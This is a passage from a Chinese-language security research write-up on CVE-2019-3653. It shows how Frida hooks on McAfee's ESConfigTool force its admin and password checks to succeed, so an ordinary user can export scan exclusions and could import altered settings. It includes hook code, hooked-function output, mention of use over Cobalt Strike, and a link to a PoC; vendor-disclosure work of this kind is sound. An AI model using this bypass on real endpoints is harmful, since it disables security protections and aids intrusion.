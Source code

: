 ```
...   onLeave: function (retval) `{`
...     console.log('[+] Patching password check function');
...     retval.replace(0x0);
...   `}`
... `}`);
... 
... """
&gt;&gt;&gt; session.create_script(script).load()
[-] Base address is: 0x7ff73ed30000
[-] Admin check is: 0x7ff73ed35f30
[-] BLInvokeMethod: 0x7ffa4d759730
&gt;&gt;&gt; rdev.resume(pid)
&gt;&gt;&gt; [+] Hooked admin check function
[+] Returning true for admin check
[+] Hooked BLInvokeMethod function
[+] Patching password check function

&gt;&gt;&gt;
```

事实证明非常顺利：

[![](https://p0.ssl.qhimg.com/t012c6fbacbafce7ec6.png)](https://p0.ssl.qhimg.com/t012c6fbacbafce7ec6.png)

> 虽然命令提示符中显示的是`admin`用户，但我并没有允许UAC弹窗。请相信我普通用户就能完成该任务。



## 0x08 后续操作

我们最终得到了扫描例外项目信息。由于该过程通过TCP连接完成，因此我也成功通过Cobalt Strike beacon完成该操作。

即使本文中我们只分析了如何导出该信息，但其实我们也可以**导入**配置文件。这意味着我们可以添加自己的例外项，修改其他设置，甚至删除密码等。

这里要稍微提一下`/plaintext`参数，这个参数有点“神经刀”。有时候能正常工作，有时候却不行。可能不同的版本性需要使用不同的函数偏移量？我并不确定。这里我不想进一步研究，因为即使McAfee向我们提供了不加此参数的加密配置，我们也可以将加密配置直接载入试用版产品中。

另外，配置信息究竟如何加密？这是另一个话题。当McAfee PSIRT（Product Security Incident Response Team）修复该问题后，我会提供一些信息。



## 0x09 缓解机制

McAfee PSIRT公布了一个[安全公告](https://kc.mcafee.com/corporate/index?page=content&amp;id=SB10299)，修复了该问题，分配的漏洞编号为[CVE-2019-3653](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-3653)。这里我并没有测试漏洞是否已被修复，毕竟自己太懒了。

我还有另一个想法：即使官方修复了ESConfigTool中的问题，我们能否使用早期版本的工具，在新版的McAfee Endpoint Protection上继续利用？这个工作留给大家完成，我上传了一个python [PoC脚本](https://github.com/dmaasland/mcfridafee/blob/master/mcafee.py)，欢迎大家尝试。
